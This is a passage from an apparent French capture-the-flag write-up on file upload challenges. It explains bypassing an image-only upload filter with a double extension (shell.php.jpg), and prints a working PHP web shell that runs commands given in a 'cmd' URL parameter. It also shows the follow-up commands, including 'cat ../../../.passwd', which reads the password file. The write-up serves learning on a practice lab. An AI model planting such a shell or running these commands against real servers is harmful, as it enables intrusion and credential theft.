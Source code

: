 Nous arrivons sur un site avec plusieurs pages en liens avec des photos (émotes, app, devices, catégories, etc.) mais il y a un lien intéressant, c'est celui de `upload` où l'on peut faire télécharger au serveur des images sous format `.gif`, `.jpg` et `.png`.

Le but est de faire télécharger un code php qui nous permettent d'afficher le fichier `.passwd` à la racine, ce qui est notamment préciser en indice du défi.

Il indique "Double extensions", en recherchant sur Internet, je trouve que les fichiers `.php` peuvent être convertit en `.php.jpg` ou autre, et toujours fonctionner ! 

J'ai écrit et uploade ce code PHP qui permet d'exécuter des commandes `shell` depuis l'url en méthode GET avec le params `cmd` :
```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', 1);
if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
}
?>
```

```sh
http://URL_DU_SITE/galerie/upload/97e70afeabcafb72cdc02329879ca861/shell.php.jpg
```

Une fois upload, on doit ajouter dans l'url le params cmd et de commencer pour se repérer, à faire la commande ls -la pour lister les éléments presents dans le dossier actuelle :
```sh
?cmd=ls la
```

On peux voir notre code shell mais nous devons trouver la racine où se trouve le fichier `.passwd` et que l'on trouve ici :
```sh
?cmd=ls la ../../../
```

On utilise cat pour l'afficher et on a le mot de passe !
```sh
?cmd=cat ../../../.passwd
```

## File Upload - Type MIME

Nous arrivons sur un site avec plusieurs pages en liens avec des photos (émotes, app, devices, catégories, etc.) mais il y a un lien intéressant, c'est celui de `upload` où l'on peut faire télécharger au serveur des images sous format `.gif`, `.jpg` et `.png`.

Le but est de faire télécharger un code PHP qui nous permettent d'afficher le fichier `.passwd` à la racine, ce qui est notamment préciser en indice du défi.

J'ai écrit et uploade ce code PHP qui permet d'exécuter des commandes `shell` depuis l'url en méthode GET avec le params `cmd` :
```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', 1);
if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
}
?>
```
